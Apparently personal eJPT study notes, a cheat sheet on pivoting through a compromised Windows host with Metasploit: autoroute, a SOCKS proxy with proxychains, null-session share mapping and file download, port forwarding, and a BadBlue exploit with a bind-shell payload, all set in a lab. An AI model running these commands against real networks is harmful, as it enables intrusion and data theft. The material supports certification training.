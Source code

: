 [[Root 𖣂]] | [[eJPT - Cheat Sheets]] | [[eJPT - README]]

<hr>

## proxychains

```shell
run autoroute -s <second_target_IP>/<netmask>
# This command is used in the Meterpreter session within the Metasploit Framework. It sets up a route through a compromised machine to access other networks that are not directly reachable from the attacker's machine.
```

Now, let's start the socks proxy server to access the pivot system on the attacker's machine using the proxychains tool.
First start the socks server using the Metasploit module.

```shell
background
use auxiliary/server/socks_proxy
# Creates a SOCKS4a proxy server inside Metasploit.
# Useful for pivoting — allows routing tools like proxychains or browsers through a Meterpreter session or compromised host.
show options
set SRVPORT 9050
set VERSION 4a 
exploit
jobs
```

Now, let's run nmap with proxychains to identify SMB port (445) on the pivot machine. We could also specify multiple ports. But, in this case, we are only interested in SMB service.

```shell
proxychains nmap <target_IP_2> -sT -Pn -sV -p 445
```

Now, let's use the `net view` command to find all resources shared by the <target_IP_2> machine.

```shell
# Interact with the meterpreter session again
sessions -i 1

pgrep explorer
migrate <process_ID>

shell
net view <target_IP_2>
```

We can see two shared resources. **Documents** and **K** drive. This confirms that pivot target allows Null Sessions, so we can access the shared resources. Also, we can achieve the same goal in several ways.

```shell
net use D: \\<target_IP_2>\Documents
net use K: \\<target_IP_2>\K$

# We successfully mapped the resources to D and K drives. Let's check what is inside these mapped drives.
dir D:
dir K:

cd D:\\ 
download Confidential.txt
download FLAG2.txt
```

<br>

# Windows Pivoting

**Pivoting with port forwarding**

```shell
# VICTIM 1
ipconfig
# We can observe, there is only one network adapter and we have two machine IP addresses but we cannot access “Victim Machine 2” directly from the attacker’s machine. We will add a route and then we will run an auxiliary port scanner module on the second victim machine to discover a host and open ports.
run autoroute -s <CIDR_notation> # e.g. 10.0.16.0/20

# VICTIM 2
use auxiliary/scanner/portscan/tcp
set RHOSTS <ip_victim_2> # Victim 2 was provided
exploit

# We have discovered port 80 on the pivot machine. Now, we will forward the remote port 80 to local port 1234 and grab the banner using Nmap
sessions -i 1
portfwd add -l 1234 -p 80 -r <ip_victim_2>
portfwd list

# We have forwarded the port, now use Nmap to find the running application name and version.
db_nmap -sS -sV -p 1234 localhost
```

**So just to summarize:**
- Gained access to **Victim Machine 1**.
- Added a route to its internal subnet to reach **Victim Machine 2**.
- Scanned and discovered **open ports** on Victim 2.
- **Forwarded** remote ports from Victim 2 to a **local port** on Kali for analysis.
- Used **Nmap** to identify service versions.
- Launched an exploit to gain access to **Victim Machine 2**.

### Exploitation - example

```shell
use exploit/windows/http/badblue_passthru
set PAYLOAD windows/meterpreter/bind_tcp
set RHOSTS <ip_victim_2>
exploit
```
